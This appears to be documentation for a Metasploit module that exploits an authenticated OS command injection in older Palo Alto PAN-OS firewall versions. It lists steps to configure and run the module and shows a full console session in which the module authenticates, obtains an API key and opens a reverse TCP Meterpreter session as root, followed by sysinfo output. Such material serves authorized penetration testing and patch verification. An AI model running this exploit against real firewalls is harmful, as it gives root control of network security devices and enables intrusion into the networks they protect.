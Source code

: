 This module exploits an authenticated OS Command Injection vulnerability in PAN-OS versions < 10.0.1, < 9.1.4 and < 9.0.10

## Vulnerable Application

A Palo Alto Firewall demo can be requested at the following [link](https://www.paloaltonetworks.com/company/request-demo)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a Meterpreter session as the `root` user.

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Authenticating...
[+] Successfully obtained api key
[*] Exploiting...
[*] Sending stage (3020772 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:51132) at 2022-08-16 09:01:47 -0400
[*] Command Stager progress - 100.00% done (1326/1326 bytes)
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
